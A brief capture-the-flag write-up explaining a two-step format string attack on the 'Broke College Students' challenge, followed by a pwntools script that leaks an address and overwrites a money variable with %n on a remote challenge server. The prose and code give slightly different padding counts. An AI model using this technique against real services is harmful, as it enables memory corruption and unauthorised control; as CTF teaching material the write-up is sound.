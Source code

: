 +++
title = "Killer-Queen CTF: Broke College Students"
date = "2021-03-11"
aliases = ["BrokeCollegeStudents"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# Broke College Students

Basic idea:
Format string attack in two steps.
Step 1: leak an address, find the same offset with `objdump`, add offset of `MONEY` -- result is real address of `MONEY` in memory, which we want to override.
Step 2: Use format string to write 999999 characters followed by `%n`, allowing us to place that value in an address we specify afterwards -- so we specify the `MONEY` address to get that amount of money.
This allows us to buy the flag.

```python
from pwn import *

p = remote("143.198.184.186", 5001)
#p = process("./brokecollegestudents")

def send_string(choice):
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recv()
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.sendline(choice)
    p.recvlines(2)
    return p.recvline().split(b"What")[0]


leaked_addr = int(send_string(b"%8$p")[2:], 16)
log.success(f"ADDRESS LEAK: {hex(leaked_addr)}")

addr_offset = 0x1160
base_addr = leaked_addr - addr_offset
money_offset = 0x401c
money_addr = p64(base_addr + money_offset)

send_string(f"%99999999c%8$n__".encode() + money_addr)

p.interactive()
```
